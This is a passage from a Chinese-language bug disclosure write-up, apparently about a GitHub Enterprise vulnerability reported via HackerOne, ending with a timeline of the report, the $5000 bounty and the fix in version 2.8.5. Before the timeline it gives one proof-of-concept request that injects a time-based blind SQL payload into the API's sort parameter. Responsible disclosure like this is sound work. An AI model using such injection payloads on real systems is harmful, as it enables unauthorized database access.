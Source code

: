```
    'https://192.168.187.145/api/v3/organizations/1/pre-receive-hooks?access_token=????????&amp;sort=id,if(user()="github@localhost",sleep(5),user())
    `{`
        ...
    `}`
```

[![](https://p2.ssl.qhimg.com/t01905f90b47d025dda.png)](https://p2.ssl.qhimg.com/t01905f90b47d025dda.png)

<br>

**时间线**

2016/12/26 05:48 通过HackerOne向Github报告

2016/12/26 08:39 Github确认漏洞并着手修复。

2016/12/26 15:48 提供更多的漏洞细节

2016/12/28 02:44 Github回复漏洞在下个版本得到修复

2017/01/04 06:41 Github奖励$5000 USD漏洞奖金

2017/01/05 02:37 询问如果要发表blog是否有需要注意的点

2017/01/05 03:06 Github表示同意发表blog

2017/01/05 07:06 Github企业版2.8.5发布
